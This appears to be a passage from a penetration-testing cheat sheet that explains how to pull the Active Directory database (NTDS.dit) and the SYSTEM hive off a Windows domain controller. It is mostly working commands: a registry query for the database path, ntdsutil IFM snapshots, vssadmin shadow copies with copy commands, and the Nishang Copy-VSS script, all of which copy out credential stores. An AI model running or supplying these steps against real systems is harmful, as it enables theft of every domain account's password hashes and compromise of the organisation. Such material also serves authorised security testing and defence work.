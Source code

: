 You will need the following files to extract the ntds : 
- NTDS.dit file
- SYSTEM hive (`C:\Windows\System32\SYSTEM`)

Usually you can find the ntds in two locations : `systemroot\NTDS\ntds.dit` and `systemroot\System32\ntds.dit`.
- `systemroot\NTDS\ntds.dit` stores the database that is in use on a domain controller. It contains the values for the domain and a replica of the values for the forest (the Configuration container data).
- `systemroot\System32\ntds.dit` is the distribution copy of the default directory that is used when you install Active Directory on a server running Windows Server 2003 or later to create a domain controller. Because this file is available, you can run the Active Directory Installation Wizard without having to use the server operating system CD.

However you can change the location to a custom one, you will need to query the registry to get the current location.

```powershell
reg query HKLM\SYSTEM\CurrentControlSet\Services\NTDS\Parameters /v "DSA Database file"
```

#### Using ndtsutil

```powershell
C:\>ntdsutil
ntdsutil: activate instance ntds
ntdsutil: ifm
ifm: create full c:\pentest
ifm: quit
ntdsutil: quit
```

or 

```powershell
ntdsutil "ac i ntds" "ifm" "create full c:\temp" q q
```

#### Using Vshadow

```powershell
vssadmin create shadow /for=C :
Copy Shadow_Copy_Volume_Name\windows\ntds\ntds.dit c:\ntds.dit
```

You can also use the Nishang script, available at : [https://github.com/samratashok/nishang](https://github.com/samratashok/nishang)

```powershell
Import-Module .\Copy-VSS.ps1
Copy-VSS
Copy-VSS -DestinationDir C:\ShadowCopy\
```

#### Using vssadmin

```powershell
vssadmin create shadow /for=C:
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit C:\ShadowCopy
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM C:\ShadowCopy
```
